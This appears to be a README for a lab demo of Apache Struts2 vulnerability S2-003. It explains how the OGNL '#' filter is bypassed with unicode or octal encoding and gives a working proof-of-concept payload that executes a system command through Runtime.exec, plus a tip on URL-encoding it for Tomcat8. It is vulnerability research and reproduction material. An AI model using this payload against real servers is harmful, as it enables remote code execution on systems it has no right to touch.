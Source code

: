 # S2-003 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote server context manipulation                           |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to Struts 2.2.1 or later |
| Affected Software       | Struts 2.0.0 - Struts 2.1.8.1                                |
| Original JIRA Ticket    | [XW-641](http://jira.opensymphony.com/browse/XW-641), [WW-2692](http://issues.apache.org/struts/browse/WW-2692) |
| Reporter                | Meder Kydyraliev, Google Security Team                       |

## Problem

Ognl的上下文对象必须要使用#符号，Struts2虽然对#号进行过滤，但是没有考虑到编码情况，导致可以用unicode编码\u0023或者八进制\43绕过。

## Environment

| Struts2 Version | struts-2.0.11.2        |
| --------------- | ---------------------- |
| Server          | Tomcat 6.0.9           |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC

![{15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417](img/{15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417.jpg)

payload:

```java
?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)
```

vulhub有在tomcat8测试成功，大家可以试试：

> 网上一些POC放到tomcat8下会返回400，研究了一下发现字符`\`、`"`不能直接放path里，需要urlencode，编码以后再发送就好了。

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

* [S2-003](https://cwiki.apache.org/confluence/display/WW/S2-003)


